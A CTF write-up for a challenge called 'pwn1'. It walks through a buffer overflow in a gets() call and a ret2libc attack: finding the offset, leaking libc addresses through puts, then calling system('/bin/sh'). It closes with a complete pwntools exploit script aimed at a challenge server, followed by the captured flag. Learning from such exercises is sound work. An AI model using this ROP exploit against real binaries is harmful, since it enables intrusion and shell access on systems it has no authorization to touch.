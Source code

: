 # pwn1

> **Category**: Pwn\
> **Author**: Stefan

## TL;DR
A relatively simple Leak2Libc.

---

## Challenge Description
Upon opening the challenge in Ghidra, we had a simple `gets()` and a `puts()` with user input. The goal was to leak the libc address and then use it to get a shell. The buffer was 128 characters long, and I encountered the first problem here:

<img src="https://i.imgur.com/1R2SXOz.png" alt="Writeup_image_1" width="500"/>

## Solution
### Step 1: Identifying the Correct Offset
I initially took the offset from RBP, but I should have looked at the disassembly and taken it from the return address instead. The correct offset was 136 for the RIP register, not 128 as it appeared with RBP.

> **Note**: The RSP register contained the same string as RIP because the main function ended with `leave ret` (function epilogue).

<img src="https://i.imgur.com/0lhtOWs.png" alt="Writeup_image_2" width="500"/>

### Step 2: Fixing the Leak
~~The second issue was that the leak only worked remotely when using `gets` (I'm not sure why).~~
~~As a result, I also had to change the calculation of `libc_base` to use `gets`.~~

<img src="https://i.imgur.com/sITr0BE.png" alt="Writeup_image_3" width="200"/>

The issue was the usage of `strip()`, which removed the last byte. Changing to `strip(b'\n')` fixed this.

### Step 3: Running the Exploit
With the final exploit file, I ran the solve script with the `r` argument and we got a shell.

<img src="https://i.imgur.com/lPsXMez.png" alt="Writeup_image_4" width="500"/>

## Exploit
```python
from pwn import *
import sys

binary = "./main"
remote_conn = "34.107.71.117 32222"
context.log_level = "critical"

if len(sys.argv) > 1 and sys.argv[1] == "l":
    r = process(binary)
    elf = context.binary = ELF(binary)
elif len(sys.argv) > 1 and sys.argv[1] == "r":
    r = remote(remote_conn.split(" ")[0], int(remote_conn.split(" ")[1]))
    elf = ELF(binary)
else:
    print("Usage: python " + sys.argv[0] + " [l|r]")
    sys.exit()

pop_rdi_ret = 0x00000000004011f3
ret = 0x000000000040101a

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.sym['main']

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["puts"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_puts = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak puts: ", hex(leak_puts))

payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(elf.got["gets"])
payload += p64(elf.plt["puts"])
payload += p64(elf.sym["main"])
r.sendline(payload)
r.recvline()
leak_gets = u64(r.recvline().strip(b'\n').ljust(8, b"\x00"))
print("leak gets: ", hex(leak_gets))

if(sys.argv[1] == 'l'):
    libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
else:
    libc=ELF("./libctarget.so")

libc.address = leak_gets - libc.sym["gets"]
bin_sh = next(libc.search(b"/bin/sh"))
print("libc base: ", hex(libc.address))
print("/bin/sh: ", hex(bin_sh))
print("system: ", hex(libc.sym["system"]))
payload = b"A" * 136
payload += p64(ret)
payload += p64(pop_rdi_ret)
payload += p64(bin_sh)
payload += p64(libc.sym["system"])

if(sys.argv[1] == "l"):
    gdb.attach(r)

r.sendline(payload)
r.recvline()
r.interactive()
```
## Flag
`CTF{5d312f4b79a334445d084d7eec892bc0a3bec1454e585c4117310b9600e6c1f0}`